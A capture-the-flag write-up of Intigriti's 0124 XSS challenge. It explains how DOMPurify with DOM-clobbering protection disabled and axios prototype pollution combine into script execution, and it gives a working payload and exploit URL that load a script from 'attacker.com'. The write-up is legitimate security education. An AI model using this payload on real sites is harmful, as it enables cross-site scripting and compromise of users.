 # Intigriti's 0124 XSS Challenge Writeup

> Challenge URL https://challenge-0124.intigriti.io/

> Goal: Find a way to execute arbitrary javascript on the iFramed page and win Intigriti swag.

This is a simple web page that lets to set a username and to search for a repo. If the search is successfull the page will load an image and the repo's website in an iframe. The sources of the challege are provided.

## Source code analysis
### Backend

* The endpoint of interest is '/':

```js
app.get("/", (req, res) => {
    if (!req.query.name) {
        res.render("index");
	return;
    }
    res.render("search", {
        name: DOMPurify.sanitize(req.query.name, { SANITIZE_DOM: false }),
        search: req.query.search
    });
});
```
* The **name** parameter is sanitized with DOMPurify, with the option **SANITIZE_DOM** set to false. Searching on the [documentation](https://github.com/cure53/DOMPurify?tab=readme-ov-file#influence-how-we-sanitize):

```js
// disable DOM Clobbering protection on output (default is true, handle with care, minor XSS risks here)
const clean = DOMPurify.sanitize(dirty, {SANITIZE_DOM: false});
```

* So **SANITIZE_DOM** disables protection against DOM Clobbering.

### Frontend

* The page uses axios to retreive the search results:

```html
<script>
    function search(name) {
        $("img.loading").attr("hidden", false);

        axios.post("/search", $("#search").get(0), {
            "headers": { "Content-Type": "application/json" }
        }).then((d) => {
            $("img.loading").attr("hidden", true);
            const repo = d.data;
            if (!repo.owner) {
                alert("Not found!");
                return;
            };

            $("img.avatar").attr("src", repo.owner.avatar_url);
            $("#description").text(repo.description);
            if (repo.homepage && repo.homepage.startsWith("https://")) {
                $("#homepage").attr({
                    "src": repo.homepage,
                    "hidden": false
                });
            };
        });
    };

    window.onload = () => {
        const params = new URLSearchParams(location.search);
        if (params.get("search")) search();

        $("#search").submit((e) => {
            e.preventDefault();
            search();
        });
    };
</script>
```
* Client-Side prototype pollution in axios `formDataToJSON`

The search form HTML element is passed directly to axios: `$("#search").get(0)`

Axios automatically takes the data to send from an HTML form element, using the `formDataToJSON` function which is vulnerable to prototype pollution according to [this commit](https://github.com/axios/axios/commit/3c0c11cade045c4412c242b5727308cff9897a0e#diff-8aad81cd9123d451e13bbee901b3ac03a001f82b4e95a1d917e44be08cf977a1)

## Exploitation
DOM Clobbering + prototype pollution

* We can set the **name** query param to this:
```html
<form id=search>
	<input name="__proto__.owner" value="x">
	<input name="__proto__.homepage" value="https://attacker.com/xss.js">
</form>
```
* With this payload the **owner** check will be bypassed and the **homepage** property will be polluted, leading to xss
* Exploit url:

`https://challenge-0124.intigriti.io/challenge?name=%3Cform+id%3dsearch%3E%3Cinput+name%3d%22__proto__.owner%22+value%3d%22x%22%3E%3Cinput+name%3d%22__proto__.homepage%22+value%3d%22https%3a//attacker.com/xss.js%22%3E%3C/form%3E&search=c`